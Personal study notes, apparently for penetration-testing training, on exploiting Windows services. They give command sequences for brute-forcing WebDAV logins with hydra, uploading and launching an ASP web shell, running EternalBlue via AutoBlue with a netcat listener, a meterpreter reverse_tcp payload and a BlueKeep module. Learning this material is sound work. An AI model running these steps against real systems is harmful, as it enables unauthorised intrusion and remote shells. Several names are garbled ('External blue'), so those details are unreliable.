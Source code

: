 # Windows Vulns

- Each Windows version have many vulns associate with.
    - Information disclosure: Access confidential data
    - Buffer overflows 
    - Remote code execute
    - Priviege escalation
    - DOS

## Frequently exploited
- SMB (share files and folder)
- IIS (80, 443) - Web server
- WebDAV (80, 443) - File server for web
- RDP (Remote desktop protocol) ~ 3389
- WinRM (Windows remote management) ~ 5986,443

## Vulns scanning
- `search type:exploit name:<service>` search for exploit for some service
    - Sunglass service
        `set payload windows/meterpreter/reverse_tcp`

- `searchsploit <service>` command - search in exploit db
    - smb has exploit `external blue` on Windows 7/8/sv 2008 R2
- Another db exploit that we can use is [db_autopwn](https://github.com/hahwul/metasploit-autopwn)
    - Download the rb script, move it to /usr/share/metaspl../plugins/
    - On `msfconsole` run `load db_autopwn`
- `analyze` command on `msfconsole - Analyze the host and find vulns

## WebDAV

IIS, web server, provide admin GUI for management. IIS supported exe file extensions:
- asp
- aspx
- config
- php

WebDAV, enable a web server to functions as a file server for collaborative
    - WebDav implements auth in the form of username and password.
    - First step of exploit is identify webDAV has been config to run on IIS server
    - After get the legit credential, we can login and upload a malicious .asp payload
    - Tools: `davtest`, `cadaver`

Exploit steps:
- `nmap -sV -p 80,443 --script=http-enum <target>` - simple check if server have webDAV 
- Brute force auth using `hydra -L <wordlists_user> -P <wordlists_pass> <target> http-get <webDAV URI path>`
- Other way `davtest -url <target>/webdav`
    - `davtest -auth <username:pass> ....` output what file we can upload or execute on the webDAV
- `cadaver <target>` -> Provide user and password -> Interact with shell
    - Use web shell in `/usr/share/webshells/asp/webshell.asp` ~ `put <path>`
    - Lauch the webshell by click on it

## External blue:

**Manual**
- WannaCry using this exploit to spreading ransomware
- Specific tool [Auto Blue](https://github.com/3ndG4me/AutoBlue-MS17-010)
    - Define LHOST and port -> Gen shell code
    - Setup netcat listener `nc -nvlp 1234`
    - `python externalblue_exploit7.py <target> <shellcode_path>/sc_x64.bin
    - Netcat will open remote sessions

**Automation:** We can using msf `exploit/ ... ms17_010_externalblue` -> meterpreter.

## BlueKeep - RDP Vulns

CVE-2019-0708

- `msf` exploit modules `cve_20..._bluekeep_rce`
    - Use `show targets` for display targets systems -> `set target <number>`
    - Sometimes Windows system will crash during the exploit